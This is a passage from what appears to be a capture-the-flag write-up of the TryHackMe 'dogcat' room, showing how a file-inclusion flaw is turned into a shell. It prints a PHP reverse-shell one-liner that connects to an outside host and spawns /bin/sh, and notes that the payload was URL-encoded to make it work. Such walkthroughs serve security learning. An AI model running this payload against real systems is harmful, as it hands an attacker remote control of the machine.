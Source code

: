 Now I use the following PHP reverse shell one-liner from pentestmonkey.net
```
php -r '$sock=fsockopen("10.11.11.11",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![LFI to reverse shell](/assets/images/thm_dogcat/thm_dogcat_burpsuit_2.jpg)

I had to URL encode all characters in the php reverse shell code to get it to work properly.

![URL encoded php reverse shell](/assets/images/thm_dogcat/thm_dogcat_burpsuit_3.jpg)
